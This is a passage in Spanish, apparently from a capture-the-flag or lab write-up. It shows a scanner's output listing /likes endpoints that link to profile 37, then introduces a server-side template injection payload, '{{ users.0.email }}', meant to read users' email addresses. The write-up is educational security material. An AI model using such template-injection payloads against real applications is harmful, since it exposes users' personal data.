 Info:

```
🔍 Buscador específico del perfil /profile/37
==================================================
[*] Escaneando endpoints /like/{id} (0-100) para perfil 37...

[*] Escaneando endpoints /likes/<built-in function id> (0-100) para perfil 37...
[+] ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day"
[+] ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter"
[+] ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit"
[+] ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker"
[+] ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse"
[+] ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse"
[+] ENCONTRADO: /likes/19 -> /profile/37 - title="{{ users.values }}"
[+] ENCONTRADO: /likes/23 -> /profile/37 - title="backdoor_bandit"

============================================================
RESULTADOS - PERFIL 37 ENCONTRADO EN:
============================================================
Endpoint /likes/1 -> /profile/37 - title="zero_day"
Endpoint /likes/12 -> /profile/37 - title="codebreaker"
Endpoint /likes/17 -> /profile/37 - title="trojanhorse"
Endpoint /likes/18 -> /profile/37 - title="trojanhorse"
Endpoint /likes/19 -> /profile/37 - title="{{ users.values }}"
Endpoint /likes/2 -> /profile/37 - title="hexhunter"
Endpoint /likes/23 -> /profile/37 - title="backdoor_bandit"
Endpoint /likes/8 -> /profile/37 - title="bytebandit"

==================================================
BÚSQUEDA RÁPIDA ADICIONAL:
==================================================
[*] Búsqueda rápida del perfil 37 en endpoints /likes/...
✅ ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day"
✅ ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter"
✅ ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit"
✅ ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker"
✅ ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse"
✅ ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse"
✅ ENCONTRADO: /likes/19 -> /profile/37 - title="{{ users.values }}"
✅ ENCONTRADO: /likes/23 -> /profile/37 - title="backdoor_bandit"

🎯 Búsqueda completada. Total de apariciones del perfil 37: 8
```

Veremos varios usuarios que hemos podido filtrar, ahora vamos a probar con este `payload` y lo volveremos a ejecutar:

> payload (email)

```
{{ users.0.email }}
```
